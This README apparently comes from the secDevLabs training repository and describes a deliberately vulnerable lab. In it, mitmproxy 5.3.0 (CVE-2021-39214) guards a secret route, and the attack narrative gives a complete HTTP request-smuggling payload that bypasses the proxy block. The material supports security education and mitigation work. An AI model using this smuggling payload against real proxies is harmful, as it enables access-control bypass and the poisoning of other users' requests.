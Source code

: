 <!-- This is a README Template for secDevLabs apps -->
# Golden hat society

<p align="center">
    <img src="images/img1.png"/>
</p>

Golden hat society is an application made with python that has a reverse proxy, mitmproxy, blocking the route `/golden.secret` that must be accessed only by whom is inside the docker VPN.

## Index

- [Definition](#definition)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)


## <a name="definition"></a> What does it mean to use vulnerable and outdated components?

This vulnerability was #9 on OWASP top ten 2017 and made all the way up to #6 in 2021. Normally, softwares that contains incoming connections, are executed by exclusive users with restricted permissions. The reason why is that if someone exploits the application, then this attacker can't do much because of these permissions.

As softwares get bigger and bigger, we must use some libraries at some point, this means that those libs must be secure too. The main point of this vulnerability is to use a lib, framework and other modules vulnerable to an already known vulnerability (known by advisories).

The main goal of this app is to discuss how using vulnerable and outdated components can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this application:

```sh
cd secDevLabs/owasp-top10-2021-apps/a6/golden-hat
```

```sh
make install
```

Then simply visit [localhost:10006][app] ! :ghost:

## Get to know the app ⚜️

To properly understand how this application works, you can follow these simple steps:

* Visit the homepage.

## Attack narrative

Now that you know the purpose of this app, what could possibly go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or it's users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Use of vulnerable mitmproxy version allows HTTP desync attacks

First time acessing the app:

<p align="center">
    <img src="images/img1.png"/>
</p>

Once we try reaching the `/golden.secret` we can see interesting headers:

<p align="center">
    <img src="images/attack1.png"/>
</p>

As we can see this `Via: mitmproxy/5.3.0` helps us with the recon. Now that we know what is running on the server we can search for CVEs on this version of mitmproxy. Once we found the CVE-2021-39214, we can make an exploit to this vulnerability.

Let's take a look on the mitmproxy source code, [TAG 5.3.0][TAG 5.3.0] at file [/mitmproxy/net/http/http1/read.py:L209][/mitmproxy/net/http/http1/read.py:L209]:

```python
if "chunked" in headers.get("transfer-encoding", "").lower():
    return None
```

As we can see this piece of code is responsible for the vulnerability. Now that we know that the proxy proccess any request as chunked that contains the chunked keyword, we can craft an request that the proxy will understand as `Transfer-Encoding` chunked and the gunicorn backend will understand as `Content-Length`. This request can be sent on burp repeater (you must disable the option `update content-length`), telnet, netcat or any type of connection that allow to send texts over sockets.

```
GET /w HTTP/1.1
Host: 127.0.0.1:10006
Transfer-Encoding: chunkedasd
Content-Length: 4

35
GET /golden.secret HTTP/1.1
Host: 127.0.0.1:8000


0

GET / HTTP/1.1
Host: 127.0.0.1:10006


```

The first request forces a 404 error. The frontend(proxy) will parse the request as a normal request with body until the 0. The backend will process the first request until 35 and then will parse the request to `/golden.secret` poisoning the next socket. Then we just put a new alignment request at the end to poison a socket that we control.

After running this payload as a request we can see the secret page:


<p align="center">
    <img src="images/attack2.png"/>
</p>

This vulnerability is interesting because you can poison other clients requests and smug them to do what you want!

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

- Bypass proxy rules.

## PR solutions

[Spoiler alert 🚨 ] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Aclosed+is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Golden+Hat+Society%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[secDevLabs]: https://github.com/globocom/secDevLabs
[app]: http://localhost:10006
[TAG 5.3.0]: https://github.com/mitmproxy/mitmproxy/tree/v5.3.0
[/mitmproxy/net/http/http1/read.py:L209]: https://github.com/mitmproxy/mitmproxy/blob/a738b335a36b58f2b30741d76d9fe41866309299/mitmproxy/net/http/http1/read.py#L209
